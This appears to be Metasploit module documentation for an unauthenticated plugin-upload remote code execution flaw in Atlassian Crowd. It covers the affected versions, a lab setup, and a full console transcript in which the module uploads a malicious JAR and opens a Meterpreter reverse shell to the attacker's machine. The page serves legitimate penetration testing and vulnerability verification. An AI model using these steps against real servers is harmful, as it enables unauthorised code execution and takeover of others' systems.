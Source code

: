 ## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environent variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue button to do a new install.
1. Follow the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Cloud
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```
